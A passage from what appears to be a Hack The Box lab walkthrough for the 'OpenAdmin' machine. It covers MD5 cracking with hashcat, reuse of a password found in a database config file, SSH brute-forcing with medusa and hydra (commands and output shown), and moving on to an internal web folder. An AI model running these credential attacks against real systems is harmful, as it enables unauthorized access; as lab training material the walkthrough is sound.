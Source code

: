 > `-m 0` tells hashcat which mode to use. 0 is MD5.

![hashcat](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/openadmin/hashcat.png)

These credentials are for [http://10.10.10.171/ona/](http://10.10.10.171/ona/)

## User (jimmy) 

The password we found in `/opt/ona/www/local/config/database_settings.inc.php` (`n1nj4W4rri0R!`) worked to log in as jimmy with SSH.

### Bruteforcing SSH

#### `medusa`

```bash
$ cat users.txt 
jimmy
joanna
$ cat pass.txt 
n1nj4W4rri0R!
test
admin
$ medusa -h $TARGET -U users.txt -P pass.txt -M ssh 
Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

ACCOUNT CHECK: [ssh] Host: 10.10.10.171 (1 of 1, 0 complete) User: jimmy (1 of 2, 0 complete) Password: n1nj4W4rri0R! (1 of 3 complete)
ACCOUNT FOUND: [ssh] Host: 10.10.10.171 User: jimmy Password: n1nj4W4rri0R! [SUCCESS]
ACCOUNT CHECK: [ssh] Host: 10.10.10.171 (1 of 1, 0 complete) User: joanna (2 of 2, 1 complete) Password: n1nj4W4rri0R! (1 of 3 complete)
ACCOUNT CHECK: [ssh] Host: 10.10.10.171 (1 of 1, 0 complete) User: joanna (2 of 2, 1 complete) Password: test (2 of 3 complete)
ACCOUNT CHECK: [ssh] Host: 10.10.10.171 (1 of 1, 0 complete) User: joanna (2 of 2, 1 complete) Password: admin (3 of 3 complete)
```

#### `hydra` 

We could done that with `hydra` too:

> `hydra -L users.txt -P pass.txt $TARGET ssh`

![hydra](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/openadmin/hydra.png)

![ssh jimmy](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/openadmin/ssh-jimmy.png)

### `/var/www/internal`

Let's go back to `/var/www/internal` _(the folder that we did not have access to before)_:

![internnal sources](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/openadmin/internal-src.png)
